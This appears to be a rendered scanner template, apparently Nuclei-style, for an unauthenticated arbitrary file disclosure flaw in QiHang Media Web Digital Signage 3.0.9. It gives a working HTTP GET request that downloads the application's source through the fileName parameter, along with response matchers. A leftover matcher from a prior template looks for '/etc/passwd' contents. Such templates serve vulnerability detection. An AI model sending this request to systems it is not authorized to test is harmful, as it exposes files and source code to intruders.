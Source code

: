- regex
  1. root:.\*:0:0:
  2. bit app support
- condition - or

**Type - status**

- status
  1. 200

---

# QiHang Media Web (QH.aspx) Digital Signage 3.0.9 - Arbitrary File Disclosure

## Description

- The QiHang Media Web application suffers from an unauthenticated file disclosure vulnerability when input passed thru the filename parameter when using the download action or thru path parameter when using the getAll action is not properly verified before being used. This can be exploited to disclose contents of files and directories from local resources.
- severity - high
- tags - qihang,lfi,disclosure

## Requests

### Step - 1

```
GET /QH.aspx?responderId=ResourceNewResponder&action=download&fileName=.%2fQH.aspx HTTP/1.1
Host: {{Hostname}}
Connection: close

```

### Matchers

**Type - word**

- part - header
- words
  1. filename=QH.aspx
  2. application/zip
- condition - and

**Type - word**

- words
  1. QH.aspx.cs
  2. QiHang.Media.Web.QH
- condition - and

**Type - status**

